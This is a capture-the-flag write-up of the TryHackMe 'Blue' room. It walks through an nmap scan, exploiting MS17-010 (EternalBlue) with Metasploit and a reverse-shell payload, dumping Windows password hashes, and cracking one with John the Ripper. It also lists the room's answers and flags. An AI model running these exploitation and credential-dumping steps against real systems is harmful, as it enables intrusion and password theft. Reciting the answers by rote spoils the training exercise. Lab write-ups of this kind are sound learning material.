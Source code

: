 # Tryhackme - [Blue](https://tryhackme.com/room/blue) 
Written on 16/12/2021


## Description
Scan and learn what exploit this machine is vulnerable to. Please note that this machine does not respond to ping (ICMP).

## Nmap 
I started off by scanning the machine for open ports/services
The machine doesn't respond to pings so I used the **-Pn** flag

```shell
sudo nmap -vv --script=vuln -Pn -sT -sV -O --top-ports 1024 -oN nmap.txt 10.10.137.211
```

Relevant results:

![](./images/blue1.png)

![](./images/blue2.png)

We can answer the first question
> How many ports are open with a port number under 1000?

Answer: **3**

And the second
> What is this machine vulnerable to? (Answer in the form of: ms??-???, ex: ms08-067)

Answer: **ms17-010**

### Ms17-010

After some googling, I found out that this is a vulnerability in the [[SMB]] protocol version 1, and is reffered to as **Eternal Blue**

An attacker can send a specially crafted packet to the target vulnerable server to gain **Remote Code Execution**


## Metasploit
Seeing that this is a known exploit, Metasploit might be very useful

Searching for the exploit:

![](./images/blue3.png)

> Find the exploitation code we will run against the machine. What is the full path of the code? (Ex: exploit/........)

Answer: **exploit/windows/smb/ms17_010_eternalblue**

We can see the options for the exploit with `show options`

![](./images/blue4.png)

> Show options and set the one required value. What is the name of this value? (All caps for submission)

Answer: **RHOSTS**

Then use `set RHOSTS THM-MACHINE-IP`

Metasploit will use meterpreter as a default payload, however the Tryhackme Room suggests using a normal reverse shell

`set payload windows/x64/shell/reverse_tcp`

Then we can `run` the exploit

Mine was failing at first so I rebooted the THM machine as the room suggested. It still wasn't working. I rebooted it again and used the default meterpreter payload and it worked, so I stuck with it.

![](./images/blue5.png)

## Privilege escalation

The room wanted us to convert the shell to a meterpreter shell regardless, so it was alright.
> Research online how to convert a shell to meterpreter shell in metasploit. What is the name of the post module we will use? (Exact path, similar to the exploit we previously selected)

Answer: **post/multi/manage/shell_to_meterpreter**

To answer the next question I used the `info` command on a different terminal in msfconsole
> Select this (use MODULE_PATH). Show options, what option are we required to change?

Answer: **session**

Then you would list all your sessions with `sessions -l`, find the windows DOS shell session, use `set session SESSION_ID`, and then `run` the exploit. After that, change the session to the new meterpreter session.

As for me, I have a meterpreter already

The `getsystem` command in meterpreter usually tries to escalate your privileges to administrator/system privileges. However when we run getsystem this is the response:

![](./images/blue6.png)

So that's nice

Ideally, the process that meterpreter resides in should also be running with administrator privs.

The THM Room recommends migrating to such a process, however I noticed this wasn't necessary for me as I ran `getuid`:

![](./images/blue7.png)

In the screenshot above we can see that we're running meterpreter inside the spoolsv.exe process, which was started by **NT AUTHORITY/SYSTEM**

## Getting local passwords

Inside meterpreter, the `hashdump` command dumps the stored local users' password hashes

![](./images/blue8.png)

As we can see, there are 3 users, Jon being the non-default one.

> What is the name of the non-default user?

Answer: **Jon**

We could have also assumed this as the machine is named JON-PC, which showed up in the nmap scan, and is also showed by the `sysinfo` command:

![](./images/blue9.png)

### Cracking the password

After copying the passwords onto my local machine, we can crack Jon's password using John The Ripper:

```shell
john --format=NT --wordlist=/usr/share/wordlists/rockyou.txt jon.txt
```

Windows uses NTLM for hashing user passwords(--format=NT for john), and I used the popular rockyou password wordlist

![](./images/blue10.png)

And there's Jon's password

> What is the cracked password?

Answer: **alqfna22**

## Finding flags

The room guides you into finding some flags

#### flag1.txt
> Flag1? This flag can be found at the system root.

I was currently in C:\\Windows\\System32 so I had to move there
![](./images/blue11.png)

Answer: **flag{access_the_machine}**

#### flag2.txt
> Flag2? This flag can be found at the location where passwords are stored within Windows.

Windows stores passwords in Windows\\System32\\config

We can just move into it

![](./images/blue12.png)

Answer: **flag{sam_database_elevated_access}**


#### flag3.txt
> flag3? This flag can be found in an excellent location to loot. After all, Administrators usually have pretty interesting things saved.

I assume this means the administrators home folder or desktop, so let's look around

After some trial and error:

![](./images/blue13.png)

There it is(bottom of the screenshot)

![](./images/blue14.png)

Answer: **flag{admin_documents_can_be_valuable}**


## Conclusion

Some good practice with Metasploit and Windows exploitation, the room indirectly shows that exploits don't always magically work and that you may have to retry and tweak your approach.


